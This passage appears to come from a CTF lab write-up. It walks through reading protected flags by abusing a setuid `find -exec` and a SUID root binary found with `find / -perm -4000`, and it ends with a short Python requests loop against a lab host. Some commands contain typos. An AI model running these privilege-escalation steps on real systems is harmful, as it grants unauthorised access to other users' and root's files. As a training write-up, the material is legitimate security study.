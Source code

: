 ## 8.3 Question #2 Solution

- Oops! file1.txt is not owned by holly but Igor. Let's try something else.
- The question stresses on Find and Igor, may be something's up with the find command. We pay the file a visit with the following command and find that the file, indeed is owned by Igor. Neat!

```bash
ls -l /usr/bin/find
```

- Lucky for us, the find file has 's' set on file permissions giving us the privilege to use it. We can use the -exec, execute further flag with `find` command and then user `cat` command immediately to read the contents of file1.txt.

```bash
find /home/igor/flag1.txt -exec cat /home/igorflag1.txt \;
# Returns THM{d3f0708bdd9accda7f937d013eaf2cd8}
```

- This works because `find` command owned by Igor elevates our privileges  to read the contents of a filed which again, is owned by him

## 8.3 Question #3 Solution

- Let's find all the files in root with 's' bit set on their permissions using the command:

```bash
find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
```

- Among a list of files, we find a file name `/usr/bin/system-control` which grants control equivalent to the root. That means, we can read files owned by root!

```bash
/usr/bin/system-control 
cat /root/flag2/txt
# Returns THM{8c8211826239d849fa8d6df03749c3a2}
```

# Day 9 - Requests

## 9.1 Question #1 Solution

- There is a port 3000 on the website `10.10.169.100` that displays a what looks like a dictionary (but is a JSON object) with keys, `value` and `next`. We are supposed to record the value of the key `value` until `next` is `end`

```bash
import requests

host = "http://10.10.169.100:3000"
path = "/" 
values = []

while path  != "/end":
        response = requests.get(host + path)
        json_response = response.json()
        path = "/" + json_response["next"]
        if path != "/end":
                values.append(json_response["value"])
print("".join(values))
```
